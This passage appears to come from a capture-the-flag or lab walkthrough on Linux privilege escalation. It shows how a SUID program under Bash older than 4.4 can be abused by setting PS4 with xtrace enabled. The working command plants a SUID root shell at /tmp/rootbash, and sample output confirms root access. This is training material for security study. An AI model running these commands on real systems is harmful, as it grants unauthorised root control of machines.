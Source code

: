**Explanation:**  
The output shows that you now have a root shell, meaning the exploit was successful.

### Cleanup

After confirming root access, exit the root shell to return to the user account:

```bash
exit
```

**No Answer Needed**

## SUID / SGID Executables - Abusing Shell Features (#2)

### Step 1: Understanding the Vulnerability

In Bash versions older than 4.4, the `PS4` environment variable is used to define a custom prompt for debugging mode. This can be exploited by embedding commands within the `PS4` variable, which will be executed when debugging is enabled.

### Step 2: Exploiting the Vulnerability

**1. Run the SUID Program with Debugging Enabled:**

We can exploit this by setting `PS4` to a command that copies `/bin/bash` to `/tmp/rootbash` and makes it SUID, allowing it to be executed with root privileges. Use the `env` command to clear other environment variables and set `SHELLOPTS` to enable debugging (`xtrace`):

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

**Sample Output:**

```bash
Starting web server: apache2.
```

**Explanation:**  
While the output appears normal, the embedded command in `PS4` has been executed, creating a SUID Bash shell at `/tmp/rootbash`.

**2. Execute the Root Shell:**

Now, run the SUID Bash shell to gain a root shell:

```bash
/tmp/rootbash -p
```

**Sample Output:**

```bash
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
```
